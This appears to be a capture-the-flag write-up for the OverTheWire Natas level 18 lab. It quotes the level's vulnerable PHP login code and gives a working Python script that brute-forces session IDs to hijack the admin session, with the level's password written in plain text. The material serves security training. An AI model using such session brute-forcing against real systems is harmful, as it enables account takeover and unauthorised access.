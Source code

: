 ```php+HTML
    session_start();
    $_SESSION["admin"] = isValidAdminLogin();
    debug("New session started");
    $showform = false;
    print_credentials();
    }
} 

if($showform) {
?>

<p>
Please login with your admin account to retrieve credentials for natas19.
</p>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Here we have to login as admin to get the password but the function

```php
function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }
    return 0;
}
```

returns 0 always . The page uses PHPSESSID and it is given that the max value is 640. so we can try bruteforcing that and find the admins PHPSESSID. I wrote a code for that

```python
import requests

url = "http://natas18.natas.labs.overthewire.org"
session = requests.Session()
leng=0
for i in range(0,640):
    response = requests.get(url,auth=requests.auth.HTTPBasicAuth('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'),cookies={"PHPSESSID":str(i)})
    print("checking :",i)
    if ("You are an admin." in response.text):
        leng = i
        print("Admin PHPSESID :",leng)
        break
```
